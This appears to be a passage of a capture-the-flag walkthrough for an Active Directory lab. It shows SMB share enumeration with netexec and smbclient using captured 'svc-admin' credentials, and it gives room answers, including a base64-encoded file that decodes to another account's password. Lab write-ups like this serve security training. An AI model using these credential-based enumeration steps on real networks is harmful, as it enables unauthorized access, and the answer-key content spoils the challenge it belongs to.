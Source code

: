 # Enumeration:

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

```bash
netexec smb 10.10.219.200 -u 'svc-admin' -p 'management2005' --shares

SMB         10.10.219.200   445    ATTACKTIVEDIREC  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.219.200   445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005 
SMB         10.10.219.200   445    ATTACKTIVEDIREC  [*] Enumerated shares
SMB         10.10.219.200   445    ATTACKTIVEDIREC  Share           Permissions     Remark
SMB         10.10.219.200   445    ATTACKTIVEDIREC  -----           -----------     ------
SMB         10.10.219.200   445    ATTACKTIVEDIREC  ADMIN$                          Remote Admin
SMB         10.10.219.200   445    ATTACKTIVEDIREC  backup          READ            
SMB         10.10.219.200   445    ATTACKTIVEDIREC  C$                              Default share
SMB         10.10.219.200   445    ATTACKTIVEDIREC  IPC$            READ            Remote IPC
SMB         10.10.219.200   445    ATTACKTIVEDIREC  NETLOGON        READ            Logon server share 
SMB         10.10.219.200   445    ATTACKTIVEDIREC  SYSVOL          READ            Logon server share
```


```bash
smbclient \\\\10.10.219.200\\backup -U svc-admin
```


- What utility can we use to map remote SMB shares?

```bash
smbclient
```

- Which option will list shares?
```bash
-L
```

- How many remote shares is the server listing?

```bash
6
```

- There is one particular share that we have access to that contains a text file. Which share is it?

```bash
backup
```

- What is the content of the file?

```bash
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```

- Decoding the contents of the file, what is the full contents?

```bash
backup@spookysec.local:backup2517860
```